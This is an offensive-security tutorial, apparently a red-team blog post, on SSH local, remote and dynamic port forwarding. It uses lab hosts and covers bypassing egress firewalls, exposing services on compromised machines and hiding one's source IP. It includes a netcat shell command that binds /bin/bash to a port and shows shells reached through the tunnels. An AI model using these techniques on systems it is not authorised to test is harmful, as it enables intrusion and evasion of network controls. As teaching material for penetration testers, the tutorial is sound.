 ```yaml
---
layout: post
title: "2024-06-18-ssh tunnelling port forwarding"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /ssh-tunnelling-port-forwarding/
---
```


---
description: Exploring SSH tunneling
---

# SSH Tunnelling / Port Forwarding

## SSH: Local Port Forwarding

If you are on the network that restricts you from establishing certain connections to the outside world, local port forwarding allows you to bypass this limitation. \
\
For example, if you have a host that you want to access, but the egress firewall won't allow it, do this:

```csharp
ssh -L 127.0.0.1:9999:REMOTE_HOST:PORT user@SSH_SERVER
```

You can now sent traffic to 127.0.0.1:9999 on your localhost and that traffic will flow through the SSH\_SERVER to REMOTE\_HOST:PORT.&#x20;

Let's see with a real example.

#### On machine 10.0.0.5

```csharp
ssh -L9999:10.0.0.12:4444 root@10.0.0.12 -N -f
```

The above says: bind on a local port 9999 (on a host 10.0.0.5). Listen for any traffic coming to that port 9999 (i.e 127.0.0.1:9999 or 10.0.0.5:9999) and forward it all that to the port 4444 on host 10.0.0.12:

We can see that the 127.0.0.1:9999 is now indeed listening:

![](../../.gitbook/assets/ssh-local-bind.png)

#### On machine 10.0.0.12

Machine 10.0.0.12 is listening on port 4444 - it is ready to give a reverse shell to whoever joins:

![](../../.gitbook/assets/ssh-local-port-1.png)

#### On machine 10.0.0.5

Since the machine is listening on 127.0.0.1:9999, let's netcat it - this should give us a reverse shell from 10.0.0.12:4444:

![](../../.gitbook/assets/ssh-local-port-2.png)

The above indeed shows that we got a reverse shell from 10.0.0.12 and the local tunnel worked.

## SSH: Remote Port Forwarding

Remote port forwarding helps in situations when you have compromised a box that has a service running on a port bound to 127.0.0.1, but you want to access that service from outside. In other words, remote port forwarding exposes an obscured port (bound to localhost) so that it can be reached from outside through the SSH tunnel.

Pseudo syntax for creating remote port forwarding with ssh tunnels is:

```csharp
ssh -R 5555:LOCAL_HOST:4444 user@SSH_SERVER
```

The above suggests that any traffic sent to port 5555 on SSHSERVER will be forwarded to the port 4444 on the LOCALHOST - the host that runs the service that is only accessible from inside that host. In other words, service on port 4444 on LOCALHOST will now be exposed through the SSHSERVER's port 5555.

Let's see an example.

#### On machine 10.0.0.12

Let's create a reverse shell listener bound to 127.0.0.1 (not reachable to hosts from outside) on port 4444:

```csharp
nc -lp 4444 -s 127.0.0.1 -e /bin/bash & ss -lt
```

![](../../.gitbook/assets/ssh-remote-hidden.png)

Now, let's open a tunnel to 10.0.0.5 and create remote port forwarding by exposing the port 4444 for the host 10.0.0.5:

```csharp
ssh -R5555:localhost:4444 root@10.0.0.5 -fN
```

The above says: bind a port 5555 on 10.0.0.5 and make sure that any traffic sent to port 5555 on 10.0.0.5, gets forwarded to a service listening on localhost:4444 on to this box (10.0.0.12).

#### On machine 10.0.0.5

Indeed, we can see a port 5555 got opened up on 10.0.0.5 as part of the tunnel creation:

![](../../.gitbook/assets/ssh-remote-exposed.png)

Let's try sending some traffic to 127.0.0.1:5555 - this should give us a reverse shell from the 10.0.0.12:4444 - which it did:

![](../../.gitbook/assets/ssh-remote-shell.png)

## SSH: Dynamic Port Forwarding

Pseudo syntax for creating dynamic port forwarding:

```csharp
ssh -D 127.0.0.1:9090 user@SSH_SERVER
```

The above essentially means: bind port 9090 on localhost and any traffic that gets sent to this port, please relay it to the SSH\_SERVER - I trust it to make the connections for me.

For the demo, let's check what is our current IP before the dynamic port forwarding is set up:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-myip1.png)

Creating an ssh tunnel to 159.65.200.10 and binding port 9090 on the local machine 10.0.0.5:

```csharp
ssh -D9090 root@159.65.200.10
```

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-create-tunel.png)

Checking network connections on the localhost 10.0.0.5, we can see that the port 9090 is now listening:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-port-listening.png)

This means that if we send any traffic to 127.0.0.1:9090, that traffic will be sent to the hosts on the other end of the ssh tunnel - 159.65.200.10 and then the host 159.65.200.10 will make connections to other hosts on behalf of the host 10.0.0.5. It will return any data it receives back to the originating host 10.0.0.5.

To test this, we can set our browser to use a socks5 proxy server 127.0.0.1:9090 like so:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-configure-browser.png)

If we check what our IP is again, it is obvious that we are now indeed masquerading the internet as 159.65.200.10:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-myip2.png)

```
Dynamic port forwarding plays along nicely with ProxyChains.
```

## References

{% embed url="https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html" %}

@spotheplanet
